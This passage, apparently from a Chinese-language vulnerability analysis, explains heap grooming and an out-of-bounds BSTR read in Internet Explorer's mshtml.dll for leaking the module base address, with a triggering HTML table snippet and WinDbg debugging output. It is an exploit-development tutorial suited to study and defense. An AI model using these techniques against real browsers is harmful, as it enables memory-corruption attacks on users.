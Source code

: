 
一块占用0x100的内存空间

代码在布局时会连续填充字符串，由堆空间管理的性质可知分配的这些堆空间最终会紧挨在一起，因此内存中的分布会如上图那样彼此间相邻。同时，这里还利用了堆空间管理中的另一性质（和Glibc的bin机制相似），即当某块堆空间被释放后如果接下来又有新的申请堆空间操作且此释放掉的空间大小合适，那么会将释放掉的该堆空间重新分配给此时的申请操作。我们注意如下代码：

```html
<table style="table-layout:fixed"><col id="132" width="41" span="9">&nbsp;</col></table>
```

就这一块来说，程序将为其分配0x1c*9=0xfc字节大小的堆空间，而在布局时释放掉的那些堆空间大小为0x100字节，所以最后释放掉的那块堆空间将会重新分配来保存column的样式信息。最终内存中的分布会是如下这个样子：


为了计算mshtml.dll模块的基址，我们需要获取黄色区域标识的vftable数值，这里利用了堆溢出，同样，也是通过js代码动态更新span属性值的方式，修改BSTR对象的的size字段，从而可以按索引越界读取到vftable的值。



对这一块堆布局的代码调试如下：

在mshtml!_CTableCol::GetAAspan下断点，追踪esi指针即可定位到堆空间：

```
0:005> bp mshtml!CTableCol::GetAAspan
0:005> g
Breakpoint 2 hit
eax=004a8e80 ebx=004dee40 ecx=00000032 edx=00000009 esi=030c110c edi=004a8e80
eip=6872a6cb esp=0254bfbc ebp=0254c064 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
mshtml!CTableCol::GetAAspan:
6872a6cb 8bff            mov     edi,edi
0:005> gu
eax=00000009 ebx=004dee40 ecx=00000002 edx=004cbf88 esi=030c110c edi=004a8e80
eip=6893f31f esp=0254bfc0 ebp=0254c064 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
mshtml!CTableLayout::CalculateMinMax+0x3ac:
6893f31f 3de8030000      cmp     eax,3E8h
0:005> dd 030c110c L300
030c110c  00000045 2baf3432 88000000 000000fa
030c111c  00410041 00410041 00410041 00410041
030c112c  00410041 00410041 00410041 00410041
030c113c  00410041 00410041 00410041 00410041
030c114c  00410041 00410041 00410041 00410041
030c115c  00410041 00410041 00410041 00410041
030c116c  00410041 00410041 00410041 00410041
030c117c  00410041 00410041 00410041 00410041
030c118c  00410041 00410041 00410041 00410041
030c119c  00410041 00410041 00410041 00410041
030c11ac  00410041 00410041 00410041 00410041
030c11bc  00410041 00410041 00410041 00410041
030c11cc  00410041 00410041 00410041 00410041
030c11dc  00410041 00410041 00410041 00410041
030c11ec  00410041 00410041 00410041 00410041
030c11fc  00410041 00410041 00410041 00410041
030c120c  00410041 00410041 00000041 2baf3453
030c121c  88000000 000000fa 00420042 00420042 # 0xfa为字符串size
030c122c  00420042 00420042 00420042 00420042
030c123c  00420042 00420042 00420042 00420042
030c124c  00420042 00420042 00420042 00420042
030c125c  00420042 00420042 00420042 00420042
030c126c  00420042 00420042 00420042 00420042
030c127c  00420042 00420042 00420042 00420042
030c128c  00420042 00420042 00420042 00420042
030c129c  00420042 00420042 00420042 00420042
030c12ac  00420042 00420042 00420042 00420042
030c12bc  00420042 00420042 00420042 00420042
030c12cc  00420042 00420042 00420042 00420042
030c12dc  00420042 00420042 00420042 00420042
```